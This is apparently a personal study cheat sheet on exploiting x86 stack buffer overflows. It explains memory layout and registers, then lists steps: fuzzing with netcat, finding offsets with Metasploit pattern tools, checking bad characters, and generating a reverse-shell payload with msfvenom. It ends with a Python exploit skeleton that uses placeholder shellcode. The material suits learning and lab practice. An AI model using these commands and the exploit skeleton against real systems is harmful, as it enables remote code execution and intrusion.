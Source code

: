 # x86 Stack Buffer Overflow Steps    
Resources:      
https://github.com/Tib3rius/Pentest-Cheatsheets/blob/master/exploits/buffer-overflows.rst    
[TCM: Buffer Overflows Made Easy](https://www.youtube.com/watch?v=ncBblM920jw)     
[Vulnerable Functions](https://int0x33.medium.com/day-49-common-c-code-vulnerabilities-and-mitigations-7eded437ca4a)    
[Red Team Notes - x32 Stack Based Buffer Overflow](https://www.ired.team/offensive-security/code-injection-process-injection/binary-exploitation/stack-based-buffer-overflow)    
Buffer overflow: memory corruption exploit.     

## Anatomy of Memory     
```
Higher memory addresses 
--- Kernel ---
--- Stack ---  
--- Heap ---
--- BSS --- 
--- Data ---
--- Text ---
Lower memory addresses  
```   
Stack: LIFO (last in, first out), memory addresses grow down, contains function values (stack frames) need for the program to function. Instruction Pointer: registers that store the next instruction to execute.     
Heap segment: memory the programmer can control. Can be allocated and used, grows smaller or larger as needed. The memory within the heap is managed by allocator and deallocator algorithims, reserve a region of memory in the heap for use / remove perms to allow that portion of memory to be reused for later reservations. Heap will grow or shrink depending on how much memory is reserved for use.        
Data and bss segments: store global and static program vars. Data segment: filled with initialized global and static vars, bss is filled with unintialized. writeable segments with a fixed size, allows global and static vars to persist.           
Text / code segment: a fixed size segment, where assembled machine language instructions of the program are located.
      
Stack before overflow:      
```
High memory address ("base of stack")
-- Main()'s stack frame -- 
-- Arguments --   
-- Return address -- 
-- EBP (base pointer for the current stack frame) -- 
-- Local variables -- 
Low memory address ("top of the stack" - ESP)   
```
Stack after overflow:    
```
High memory address  
-- Shellcode --   
-- ESP --  
-- &jmp esp -- 
-- Overflow -- 
Low memory address ("top of the stack")
```

Stack frame: EBP register (or frame pointer (FP) / local base (LB) pointer) is used to reference local function variables in the current stack frame. Each stack frame contains the parameters to the function, its local variables, and two pointers that are neccessary to put things back the way they were: the saved frame pointer (SFP) and the return address. The SFP is used to restore EBP to its previous value, and the return address is used to restore EIP to the next instruction found after the function call.     
EIP - points to the next instruction for the CPU to execute.     
EBP - points to the base of the current stack frame (used as a reference point).    
ESP - points to the "top" of the stack.       

## What You Need    
- A vulnerable executable.
- A debugger such as GDB/GEF or Immunity Debugger (OS / platform dependant).
- A testing enviroment with the same architechure as the target.   
- Helpful tools: MsfVenom for generating payloads, pwntools Python library.    

## General Stack Buffer Overflow Steps   
Buffer overflow: an attacker can overflow a memory buffer by writing data to it without the program using bound checking to limit this from happening. This can affect not only the buffer but adjacent memory. An attacker can sometimes get remote code execution or privilege escalation.       

1. Identify the architechure for the binary and any protections on it (NX, ASLR, etc). 
2. Identify a segmentation fault causing a program to crash by fuzzing a program.    
    python -c "print('A'*200)" | nc 127.0.0.1 10000    
3. Test the ability to overwrite EIP and control program execution.
    3a. Note EIP value after a crash using a debugger.     
4. Identify the amount of bytes needed to overflow the program and overwrite EIP (the offset).   
    4a. Use a pattern to calculate the offset by supplying it as input to the program and noting the value of EIP.     
    /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 300   
    /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q <value at EIP>
5. Note if the injected code is written onto the stack - if so EIP can force execution to ESP to then execute shellcode.    
6. Generate or write shellcode. If necessary, exclude common bad characters like \x00, \x0A, \x0D. Bad chars often corrupt the next byte after them so just take the first one in a sequence of 2.     
    msfvenom -p windows/shell_reverse_tcp LHOST=127.0.0.1 LPORT=443 -f python    
7. Test the program for bad characters by creating a bytearray of chars from \x01 to \xff, injecting the characters and looking at the memory dump of the memory lcoation pointed to by EIP after the crash.       
All possible chars:     
    for i in {0..255}; do printf "\\\x%02x" $i; done; echo -e "\r"    
Generate a payload without bad chars:     
msfvenom -p windows/shell_reverse_tcp LHOST=127.0.0.1 LPORT=443 -f python -b 0x0a    
8. Control the overwrite - jump to a specific location and execute code there. One way to do this: find a 'jmp esp' instruction in the program that will ensure the shellcode on the stack will be executed and overwrite EIP with the memory address of this value.    
9. Insert padding (NOPs) as needed to ensure the exploit is more reliable (more room for error).

General buffer overflow exploit payload (this may need tweaking):      
Offset characters + return address (will overwrite EIP) + NOPs for padding + shellcode   

Common C vulnerable functions: strcpy(), stpcpy(), gets(), strcat(), strcmp(), sprintf().       

Exploit skeleton code:    
```
import socket, sys
#connect to a vulnerable server and send a payload - can also craft exploit using pwntools   
sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
sock.connect(("127.0.0.1", 10000))
# send A's
buf = b"A"*268      #multiple by the offset  
# overwrite EIP with string RETN
buf += b"RETN"
# shellcode
buf += b"SHELLCODE"
# send payload
sock.send(buf)
sock.close()
```   

## Dealing with Limited space for Your Shellcode   
- Socket reuse. 
- Inject shellcode somewhere in memory, use an egghunter to find the shellcode in memory and execute it. 